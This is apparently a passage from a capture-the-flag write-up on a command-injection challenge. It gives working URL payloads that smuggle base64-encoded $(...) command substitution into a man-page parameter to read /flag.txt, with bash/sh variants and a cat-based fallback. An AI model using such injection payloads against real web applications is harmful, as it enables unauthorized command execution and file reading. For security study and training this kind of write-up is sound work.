 Output:

![Base64 Payload Output](./base64_payload_output.png)

Base64 allows the forward slash character to be encoded:

```
L2ZsYWcudHh0 -> (base64 decode) -> /flag.txt
```

Not sure why the `-l app.py` is there tbh. Might have been artifacts from previous injections. It still works but doesn't seem like it's required. The following works:

```
http://challenges.oceaniacc.com:5001/;/--html=%22$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/man
```

Decoded URL:

```
http://challenges.oceaniacc.com:5001/;/--html="$(echo 'L2ZsYWcudHh0'|base64 -d)"/man
```

One thing I tried with this payload is without the pipe character. So something like this would work if the `bash` shell was used:

```
$(base64 -d <<< 'L2ZsYWcudHh0')
```

However, this redirection operator doesn't work on `sh` which means it won't on this challenge.

Additionally, I wanted to highlight the use of the command substitution to print the flag in the error message rather than printing to `stdout` is very creative. However, this only works because the executable bit is set for the `flag.txt` file. 

```sh
$ ls -l /flag.txt
-rw-r--r-- 1 root root 12 Feb  8 18:14 /flag.txt
$ /flag.txt
sh: 11: /flag.txt: Permission denied
$ sudo chmod +x /flag.txt
$ /flag.txt
/flag.txt: 1: oicc{hello}: not found
```

If stderr is not outputted or the executable bit is not set, I would make the payload like this:

```
http://challenges.oceaniacc.com:5001/;/--html=cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)/man
```
